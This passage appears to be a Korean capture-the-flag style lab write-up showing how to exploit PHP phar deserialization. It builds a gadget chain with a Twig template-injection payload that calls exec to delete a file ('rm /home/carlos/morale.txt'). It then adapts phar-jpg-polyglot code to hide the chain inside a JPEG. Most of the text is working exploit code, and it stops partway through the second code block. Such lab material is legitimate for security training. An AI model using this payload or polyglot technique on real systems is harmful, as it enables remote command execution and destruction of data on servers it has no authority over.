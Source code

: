 

## SSTI 페이로드를 포함하는 개짓체인을 만든다

```php
class CustomTemplate {}
class Blog {}
$object = new CustomTemplate;
$blog = new Blog;
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';
$blog->user = 'user';
$object->template_file_path = $blog;
```


## `PHAR-JPG`를 만든다
`phar jpg polyglot`로 검색하면 여러 정보를 얻을 수 있다. 

[여기](https://github.com/kunte0/phar-jpg-polyglot)의 코드를 사용해보자. 

`// pop exploit class`로 되어 있는 부분 하단을 위의 개짓체인으로 수정한다. 

```php
<?php


function generate_base_phar($o, $prefix){
    global $tempname;
    @unlink($tempname);
    $phar = new Phar($tempname);
    $phar->startBuffering();
    $phar->addFromString("test.txt", "test");
    $phar->setStub("$prefix<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($o);
    $phar->stopBuffering();
    
    $basecontent = file_get_contents($tempname);
    @unlink($tempname);
    return $basecontent;
}

function generate_polyglot($phar, $jpeg){
    $phar = substr($phar, 6); // remove <?php dosent work with prefix
    $len = strlen($phar) + 2; // fixed 
    $new = substr($jpeg, 0, 2) . "\xff\xfe" . chr(($len >> 8) & 0xff) . chr($len & 0xff) . $phar . substr($jpeg, 2);
    $contents = substr($new, 0, 148) . "        " . substr($new, 156);

    // calc tar checksum
    $chksum = 0;
    for ($i=0; $i<512; $i++){
        $chksum += ord(substr($contents, $i, 1));
    }
    // embed checksum
    $oct = sprintf("%07o", $chksum);
    $contents = substr($contents, 0, 148) . $oct . substr($contents, 155);
    return $contents;
}


// pop exploit class
class CustomTemplate {}
class Blog {}
$object = new CustomTemplate;
$blog = new Blog;
```